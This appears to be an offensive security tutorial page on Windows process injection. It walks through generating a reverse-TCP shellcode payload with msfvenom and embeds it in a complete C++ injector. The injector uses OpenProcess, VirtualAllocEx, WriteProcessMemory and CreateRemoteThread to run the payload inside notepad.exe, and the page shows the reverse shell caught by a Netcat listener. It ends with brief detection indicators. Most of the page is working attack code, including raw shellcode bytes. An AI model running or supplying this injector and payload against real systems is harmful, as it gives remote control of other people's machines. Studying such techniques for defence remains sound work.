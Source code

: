 ```yaml
---
description: Shellcode Injection using CreateRemoteThread API
---
```


# Shellcode Injection

Code Injection is a process to inject code into another running process.

In this article, We are gonna focus on injecting shellcode using CreateRemoteThread API.

First off, Let's use Metasploit to generate our malicious shellcode. It's a reverse tcp shell.

{% code overflow="wrap" %}
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.3 LPORT=3333 -f c -b \x00\x0a\x0d
```
{% endcode %}

<div data-full-width="false">

<figure><img src="../../.gitbook/assets/msfvenom_Shellcode.png" alt=""><figcaption></figcaption></figure>

</div>

Now our C++ code to inject and execute this shellcode into a process by following steps:

* First, we need to open our target process, using `OpenProcess` API with the parameter `PROCESS_ALL_ACCESS` which gain all possible access rights for a process object.
* Then we will use `VirtualAllocEx`  API, which allocates a region of memory within the virtual address space of a target process equal to our size of shellcode. We use the `MEM_RESERVE and MEM_COMMIT` parameters for memory allocation type and `PAGE_EXECUTE_READWRITE` for memory protection of the pages.
* Write the shellcode data to the allocated memory area in the target process using the `WriteProcessMemory` API.
* Lastly, create a new thread in the virtual address space of the target process with the `CreateRemoteThread` API to execute the injected shellcode.

{% code title="ShellCodeInj.cpp" fullWidth="false" %}
```

#include <windows.h>
#include <stdlib.h>
#include <stdio.h>



void printError(const char* error)
{
	printf("%s is failing. Error code: 0x%x\n\n", error, GetLastError());
}



int main(int argc, char *argv[])
{
	//msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.3 LPORT=3333 -f c -b \x00\x0a\x0d
	unsigned char shellcode[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef"
		"\xff\xff\xff\x48\xbb\x47\xdd\xc8\xf6\xf5\xe1\xd4\x3a\x48"
		"\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xbb\x95\x4b"
		"\x12\x05\x09\x14\x3a\x47\xdd\x89\xa7\xb4\xb1\x86\x6b\x11"
		"\x95\xf9\x24\x90\xa9\x5f\x68\x27\x95\x43\xa4\xed\xa9\x5f"
		"\x68\x67\x95\x43\x84\xa5\xa9\xdb\x8d\x0d\x97\x85\xc7\x3c"
		"\xa9\xe5\xfa\xeb\xe1\xa9\x8a\xf7\xcd\xf4\x7b\x86\x14\xc5"
		"\xb7\xf4\x20\x36\xd7\x15\x9c\x99\xbe\x7e\xb3\xf4\xb1\x05"
		"\xe1\x80\xf7\x25\x6a\x54\xb2\x47\xdd\xc8\xbe\x70\x21\xa0"
		"\x5d\x0f\xdc\x18\xa6\x7e\xa9\xcc\x7e\xcc\x9d\xe8\xbf\xf4"
		"\x31\x37\x6c\x0f\x22\x01\xb7\x7e\xd5\x5c\x72\x46\x0b\x85"
		"\xc7\x3c\xa9\xe5\xfa\xeb\x9c\x09\x3f\xf8\xa0\xd5\xfb\x7f"
		"\x3d\xbd\x07\xb9\xe2\x98\x1e\x4f\x98\xf1\x27\x80\x39\x8c"
		"\x7e\xcc\x9d\xec\xbf\xf4\x31\xb2\x7b\xcc\xd1\x80\xb2\x7e"
		"\xa1\xc8\x73\x46\x0d\x89\x7d\xf1\x69\x9c\x3b\x97\x9c\x90"
		"\xb7\xad\xbf\x8d\x60\x06\x85\x89\xaf\xb4\xbb\x9c\xb9\xab"
		"\xfd\x89\xa4\x0a\x01\x8c\x7b\x1e\x87\x80\x7d\xe7\x08\x83"
		"\xc5\xb8\x22\x95\xbf\x4b\x96\xa7\x08\x18\xee\xfa\xf6\xf5"
		"\xa0\x82\x73\xce\x3b\x80\x77\x19\x41\xd5\x3a\x47\x94\x41"
		"\x13\xbc\x5d\xd6\x3a\x4a\xd8\xc2\xf6\xf5\xe2\x95\x6e\x0e"
		"\x54\x2c\xba\x7c\x10\x95\x80\x0b\xaa\xee\xf1\x0a\x34\x98"
		"\xb3\xad\xb5\xc9\xf7\xf5\xe1\x8d\x7b\xfd\xf4\x48\x9d\xf5"
		"\x1e\x01\x6a\x17\x90\xf9\x3f\xb8\xd0\x14\x72\xb8\x1d\x80"
		"\x7f\x37\xa9\x2b\xfa\x0f\x54\x09\xb7\x4f\x0b\xdb\xe5\xa7"
		"\x22\x1d\xbe\x7c\x26\xbe\x2a\x06\x85\x84\x7f\x17\xa9\x5d"
		"\xc3\x06\x67\x51\x53\x81\x80\x2b\xef\x0f\x5c\x0c\xb6\xf7"
		"\xe1\xd4\x73\xff\xbe\xa5\x92\xf5\xe1\xd4\x3a\x47\x9c\x98"
		"\xb7\xa5\xa9\x5d\xd8\x10\x8a\x9f\xbb\xc4\x21\xbe\x37\x1e"
		"\x9c\x98\x14\x09\x87\x13\x7e\x63\x89\xc9\xf7\xbd\x6c\x90"
		"\x1e\x5f\x1b\xc8\x9e\xbd\x68\x32\x6c\x17\x9c\x98\xb7\xa5"
		"\xa0\x84\x73\xb8\x1d\x89\xa6\xbc\x1e\x1c\x77\xce\x1c\x84"
		"\x7f\x34\xa0\x6e\x43\x8b\xe2\x4e\x09\x20\xa9\xe5\xe8\x0f"
		"\x22\x02\x7d\xfb\xa0\x6e\x32\xc0\xc0\xa8\x09\x20\x5a\x24"
		"\x8f\xe5\x8b\x89\x4c\x53\x74\x69\xa7\xb8\x08\x80\x75\x31"
		"\xc9\xe8\x3c\x3b\xd7\x48\x0d\x15\x94\xd1\x81\x00\xce\xba"
		"\x99\x9f\xe1\x8d\x7b\xce\x07\x37\x23\xf5\xe1\xd4\x3a";
		

	printf("Injecting to PID %i", atoi(argv[1]));

	HANDLE processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	if (processHandle == INVALID_HANDLE_VALUE)
	{
		printError("OpenProcess");
		return 0;
	}

	PVOID remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	if (!remoteBuffer)
	{
		printError("VirtualAlllocEx");
		CloseHandle(processHandle);
		return 0;
	}

	if (!WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL))
	{
		printError("WriteProcessMemory");
		CloseHandle(processHandle);
		return 0;
	}
	
	HANDLE remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	if (!remoteThread)
	{
		printError("CreateRemoteThread");
		CloseHandle(processHandle);
		return 0;
	}

	CloseHandle(processHandle);



	return 0;
}
```
{% endcode %}

{% file src="../../.gitbook/assets/ShellCodeInj.exe" %}

Then, we will run our `exe` with the `process ID` of our target process in which we want to inject our shellcode. For this scenario we are taking the `notepad.exe`:

<figure><img src="../../.gitbook/assets/Shellcode_Injection.png" alt=""><figcaption></figcaption></figure>

We can see that the process ID of `notepad.exe` is `6392`. Now, on running our executable.

`ShellcodeInj.exe 6392`

<figure><img src="../../.gitbook/assets/Shellcode_Injection_2 (1).png" alt=""><figcaption></figcaption></figure>

We received the reverse shell on our Netcat listener and have remote access to our target system.

We can see `ShellcodeInj.exe` created a new process `cmd.exe` under `notepad.exe`

Upon further analysis of notepad.exe, we can see the `ws2_32.dll` module loaded in the module section, which is typically not loaded under normal circumstances for notepad. This module handles socket management, indicating potential abnormal activity within the process.

<figure><img src="../../.gitbook/assets/modules (1).png" alt=""><figcaption></figcaption></figure>

Also on checking the `memory` tab, we can see, the `ws2_32.dll` loaded, and having the read and execute permission set for it.&#x20;

<figure><img src="../../.gitbook/assets/memory.png" alt=""><figcaption></figcaption></figure>

Hene, we successfully injected the shellcode in target process.

